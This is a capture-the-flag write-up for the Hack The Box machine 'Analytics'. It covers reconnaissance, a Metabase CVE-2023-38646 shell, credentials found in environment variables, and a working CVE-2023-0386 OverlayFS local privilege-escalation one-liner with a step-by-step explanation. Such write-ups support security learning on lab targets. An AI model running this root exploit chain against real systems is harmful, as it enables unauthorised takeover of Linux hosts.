# Analytics Writeup - by Thammanant Thamtaranon  
- Analytics is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.233`  
  
- The scan showed two open ports:  
  - 22 (SSH)  
  - 80 (HTTP)  
- I added `analytical.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration  
- I ran a directory brute-force using `dirsearch`:  
  `dirsearch -u http://analytical.htb`  
  
- No interesting directories were found.

- I then enumerated virtual hosts using `ffuf`:  
  `ffuf -u http://analytical.htb -H "Host: FUZZ.analytical.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac`  
  
- I discovered `data.analytical.htb`, so I added that to `/etc/hosts` as well.

- Visiting `http://data.analytical.htb/` redirected to the login page:  
  `http://data.analytical.htb/auth/login?redirect=%2F`

## Exploitation  
- I attempted to log in using `admin@analytical.com:admin`.  
  - The error message confirmed that the email exists, but the password is incorrect.  


- After a few login attempts, I was rate-limited, so I looked for another way in.

- Since the login panel is Metabase, I searched for known Metabase vulnerabilities.

- I found `CVE-2023-38646`, which abuses a setup token from `/api/session/properties`.  
  - This endpoint also discloses the Metabase version in the response.

- I accessed that endpoint and confirmed the Metabase version is `0.46.6`, which is vulnerable.  


- This vulnerability allows RCE by using an SQLi in the H2 driver during DB validation.

- I extracted the setup token.  


- I ran the exploit and got a shell as `metabase`.  


- The environment looked like a container, so I ran `env` and found credentials.  


- I then used SSH with those credentials to get into the host as user `metalytics`.  


- I obtained the user flag.

## Privilege Escalation  
- Running `sudo -l` showed that `metalytics` had no sudo privileges.

- I looked around for privesc paths and ran `uname -a`.  


- The kernel version was `6.2`, so I looked for related CVEs.

- I tested a few kernel exploits:
  - `CVE-2024-1086` caused a crash, so I skipped it.
  - `CVE-2023-3269` was too complex for an Easy box.
  - `CVE-2023-0386` worked.

- **CVE-2023-0386** is a privilege escalation vulnerability in OverlayFS.  
  - It **abuses improper capability retention** when a file with elevated capabilities is copy-up’d from lowerdir to upperdir.
  - This allows a non-root user in a new user namespace to execute a binary with `cap_setuid`, effectively gaining root.

- I used the following exploit chain:
  ```bash
  unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
  ```


### Explanation:
1. `unshare -rm sh -c "..."`
   - `unshare` creates new namespaces for isolation.  
   - `-r` creates a new **user namespace** with root privileges inside it (unprivileged outside).  
   - `-m` creates a new **mount namespace** so mounts affect only this environment.  
   - `sh -c "..."` executes commands in this sandboxed environment.

2. `mkdir l u w m`
   - Creates four directories:  
     - `l` = lowerdir: holds original files (copied python3).  
     - `u` = upperdir: will hold copied-up files with retained capabilities.  
     - `w` = workdir: required by OverlayFS to manage changes.  
     - `m` = mount point: where the overlay filesystem is mounted.

3. `cp /u*/b*/p*3 l/`
   - Copies the system’s Python3 binary to the `l/` directory (wildcards match `/usr/bin/python3`).

4. `setcap cap_setuid+eip l/python3`
   - Assigns the `cap_setuid` capability to the copied python3 binary.  
   - `+eip` means Effective, Inheritable, and Permitted capabilities are set.  
   - This allows the binary to escalate privileges by setting its UID.

5. `mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m`
   - Mounts an **OverlayFS** filesystem at directory `m`.  
   - `lowerdir=l` uses the original Python binary.  
   - `upperdir=u` will hold any modified/copied files.  
   - `workdir=w` is required by OverlayFS to track changes.  
   - This lets us manipulate files without changing the original lowerdir.
   - `l/` holds the read-only Python binary with the capability, `u/` is where changes would be saved (but aren’t, since we only run it), and `m/` merges them so we can use the file without losing the capability.

6. `touch m/*`
   - Makes the kernel treat u/python3 as a new distinct file. Becuase if we run `l/python` directly the Kernel verifies capabilities against the original filesystem which has stricter checks.
   - Forces OverlayFS to:
     - Initialize metadata in `u/`
     - Maintain reference to original `l/python3` inode
   - Preserves capabilities because:
     - No real copy occurs
     - Original file attributes remain intact

8. `u/python3 -c 'import os;os.setuid(0);os.system("id")'`
   - Runs Python binary that retains `CAP_SETUID`
   - Can escalate to root because:
     - Same physical file as `l/python3` (same inode)
     - OverlayFS metadata tricks kernel into preserving caps
   - Verifies root access via `id` command

- After confirming root access, I replaced the command with `/bin/bash` to get a full root shell.  


- I obtained the root flag.
